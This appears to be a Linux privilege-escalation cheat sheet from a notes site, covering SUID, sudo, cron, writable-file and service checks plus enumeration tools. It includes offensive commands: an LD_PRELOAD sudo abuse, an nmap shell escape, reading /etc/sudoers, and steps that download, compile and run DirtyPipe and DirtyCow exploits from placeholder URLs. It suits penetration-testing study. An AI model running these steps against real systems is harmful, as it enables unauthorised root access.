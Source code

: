 ```yaml
---
layout: notes
permalink: /notes/linux/privesc/
title: Linux Privilege Escalation
---
```


## Privilege Escalation Vectors

### SUID Binaries
```bash
# Find SUID binaries
find / -perm -4000 2>/dev/null

# Check common SUID binaries
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/newgrp

# Test SUID binaries
strings <binary>
strace <binary>

# Test SUID binaries for exploits
strings /usr/bin/nmap
strace /usr/bin/nmap

# Example exploit for older nmap (if SUID)
/usr/bin/nmap --interactive
```
### Sudo

```bash
# Check sudo permissions
sudo -l

# Check sudoers files for misconfigs
cat /etc/sudoers
cat /etc/sudoers.d/*

# Exploit LD_PRELOAD
sudo LD_PRELOAD=/tmp/malicious.so <command>

# Exploit wildcards
sudo /bin/*
```

### Cron Jobs
```bash
# Inspect cron jobs
cat /etc/cron.*
cat /var/spool/cron/crontabs/*
crontab -l
```
### World-Writable Files
```bash
# Find world-writable files
find / -writable 2>/dev/null
```
### Kernel Exploits
```bash
# Check kernel version
uname -r

# Find kernel exploits
searchsploit linux kernel $(uname -r)

# Run DirtyPipe exploit (example)
wget <dirtypipe_poc_url> -O dirtypipe.c
gcc dirtypipe.c -o dirtypipe
./dirtypipe

# Run DirtyC0w exploit (example)
wget <dirtycow_poc_url> -O dirtycow.c
gcc dirtycow.c -o dirtycow
./dirtycow
```

### Service Misconfigurations
```bash
# Check service files
ls -l /etc/systemd/system/
ls -l /etc/init.d/

# Find writable service files
find /etc/systemd/system/ -writable 2>/dev/null
find /etc/init.d/ -writable 2>/dev/null

# Check unquoted paths in services
ps aux | grep <service>
```

## Automated Enumeration Tools
- [LinPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS)
- [LinEnum](https://github.com/rebootuser/LinEnum)
- [Linux Exploit Suggester](https://github.com/The-Z-Labs/linux-exploit-suggester)
- [Linux Smart Enumeration](https://github.com/diego-treitos/linux-smart-enumeration)
- [Unix Privesc Check](https://pentestmonkey.net/tools/audit/unix-privesc-check)